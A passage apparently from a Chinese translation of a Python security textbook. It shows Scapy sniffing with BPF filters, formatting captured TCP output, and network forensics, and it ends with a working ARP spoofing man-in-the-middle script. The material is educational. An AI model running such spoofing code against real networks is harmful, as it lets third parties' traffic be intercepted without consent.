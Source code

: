 Scapy 支持 B**PF（Beerkeley Packet Filters）**格式，这是一种应用于网络数据包的过滤器的标准格式。这些过滤器可以应用于一组特定的数据包，也可以直接应用于活动捕获：

```py
>>> sniff (filter = "ip and host 195.221.189.155", count = 2)
<Sniffed TCP: 2 UDP: 0 ICMP: 0 Other: 0>
```

我们可以格式化 sniff()的输出，使其适应我们想要查看的数据，并按我们想要的方式对其进行排序。我们将使用**“tcp and (port 443 or port 80)”**激活过滤器，并使用**prn = lamba x: x.sprintf**来捕获 HTTP 和 HTTPS 流量。我们想以以下方式显示以下数据：

+   源 IP 和原始端口

+   目标 IP 和目标端口

+   TCP 标志或标志

+   TCP 段的有效载荷

我们可以查看`sniff`函数的参数：

```py
sniff(filter="tcp and (port 443 or port 80)",prn=lambda x:x.sprintf("%.time% %-15s,IP.src% -> %-15s,IP.dst% %IP.chksum% %03xr, IP.proto% %r,TCP.flags%"))
```

在下面的示例中，我们可以看到在捕获数据包并应用过滤器后执行 sniff 函数的结果：

![](img/a04b900f-9919-4596-a73b-d048281311c5.png)

协议输出现在不是 TCP、UDP 等，而是十六进制值：

**006 指的是 IP 协议字段**；它指的是数据部分中使用的下一级协议。长度为 8 位。在这种情况下，十六进制（06）（00000110）= TCP 在十进制中为 6。

2、16、18、24 等是 TCP 头部的标志，以十六进制格式表示。例如，18 在二进制中是 11000，正如我们已经知道的那样，这将激活 ACK + PSH。

# 使用 scapy 进行网络取证

Scapy 还可用于从 SQL 注入攻击中执行网络取证或从服务器提取 ftp 凭据。通过使用 Python scapy 库，我们可以确定攻击者何时/在哪里/如何执行 SQL 注入。借助 Python scapy 库的帮助，我们可以分析网络数据包的 pcap 文件。

使用 scapy，我们可以分析网络数据包并检测攻击者是否正在执行 SQL 注入。

我们将能够分析、拦截和解剖网络数据包，并重用它们的内容。我们有能力操作由我们捕获或生成的 PCAP 文件中的信息。

例如，我们可以开发一个简单的 ARP MITM 攻击脚本。

您可以在**`arp_attack_mitm.py` **文件中找到以下代码：

```py
from scapy.all import *
import time

op=1 # Op code 1 for query arp
victim="<victim_ip>" # replace with the victim's IP
spoof="<ip_gateway>" # replace with the IP of the gateway
mac="<attack_mac_address>" # replace with the attacker's MAC address

arp=ARP(op=op,psrc=spoof,pdst=victim,hwdst=mac)

while True:
 send(arp)
 time.sleep(2)
```
